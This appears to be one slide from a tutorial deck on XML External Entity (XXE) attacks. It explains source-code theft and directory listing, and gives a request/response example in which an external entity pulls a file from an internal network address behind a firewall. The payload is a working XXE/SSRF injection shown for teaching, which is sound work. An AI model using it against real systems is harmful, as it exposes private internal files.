

# Example 5
Of course, an attacker is not limited to system files, an attacker can easily steal source code if they know the location and structure of the web application. It’s also worth mentioning, that with some XML parsers, it’s even possible to get directory listings in addition to the contents of a file.
XML External Entity can be taken even further by making regular HTTP requests to files on the local network (i.e. accessible only behind the firewall).

| Request | Response |
| --- | --- |
| POST http://example.com/xml HTTP/1.1 <!DOCTYPE foo [ <!ELEMENT foo ANY> <!ENTITY bar SYSTEM "http://192.168.0.1/secret.txt"> ]> <foo> &bar; </foo> | HTTP/1.0 200 OK Hello, I'm a file on the local network (behind the firewall) |